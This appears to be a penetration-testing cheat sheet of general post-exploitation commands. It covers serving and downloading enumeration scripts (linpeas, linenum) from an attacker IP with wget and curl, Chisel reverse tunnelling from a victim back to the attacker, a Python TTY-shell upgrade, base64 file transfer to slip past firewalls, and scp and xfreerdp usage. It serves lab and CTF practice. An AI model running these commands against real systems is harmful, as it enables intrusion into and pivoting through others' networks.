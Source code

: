 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

If the remote server does not have `wget`, we can use `cURL`. : `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

### Chisel

Example for postgresql (port 5432). First we need to transfer chisel.

On the attacker's machine:

```
chisel server --port 9002 --reverse
```

On the victim's machine:

```
./chisel client -v 10.10.16.81:9002 R:5432:172.22.0.1:5432
```

And now on the atacker's machine we have the ports 5432 connected. The usage wil be on another tab: `psql -h 10.10.16.81 -U "postgres" -p 5432`

``

#### Spawn a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Tmux

```
sudo apt install tmux -y
```

* [https://tmuxcheatsheet.com/](https://tmuxcheatsheet.com/)
* [Introduction to termux Ippsec](https://www.youtube.com/watch?v=Lqehvpe\_djs)

### Vim

[https://vimsheet.com/](https://vimsheet.com/)

### base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```bash
base64 binarytotransfer -w 0
#On the local machine
```

```
echo f0VMR... <SNIP> ...lIuy9i | base64 -d > binarytotransfer
#On the remote machine
```

### md5sum

To ensure the integrity of the transfered file.

```
md5sum transferedfile
```

### xfreerdp

```
xfreerdp /v:<targetIp> /u:<user> /p:<password>
```
